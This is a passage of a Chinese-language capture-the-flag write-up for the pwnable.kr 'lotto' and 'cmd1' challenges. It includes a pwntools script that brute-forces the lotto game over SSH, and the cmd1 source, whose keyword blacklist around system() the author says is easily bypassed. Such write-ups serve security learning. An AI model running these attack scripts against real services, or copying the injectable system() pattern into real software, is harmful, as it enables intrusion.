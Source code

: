 很无语的题，直接暴力跑就好。。

poc:
```python
from pwn import *
#context.log_level = 'debug'

cn = ssh(host='pwnable.kr',user='lotto',password='guest',port=2222).process("./lotto")
while 1:
	cn.recv()
	cn.sendline('1')
	cn.recv()
	cn.send('!!!!!!')
	cn.recvline()
	ret = cn.recvline()
	if ret == 'bad luck...\n':
		continue
	print ret
	break
```

`sorry mom... I FORGOT to check duplicate numbers... :(`




### cmd1

> Mommy! what is PATH environment in Linux?
>
> ssh cmd1@pwnable.kr -p2222 (pw:guest)

源码：

```cpp
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/fuckyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```

这题设置了PATH，而且加了过滤。。但这过滤好垃圾啊。

PATH直接用绝对路径解决，绕过过滤的方法好多啊。
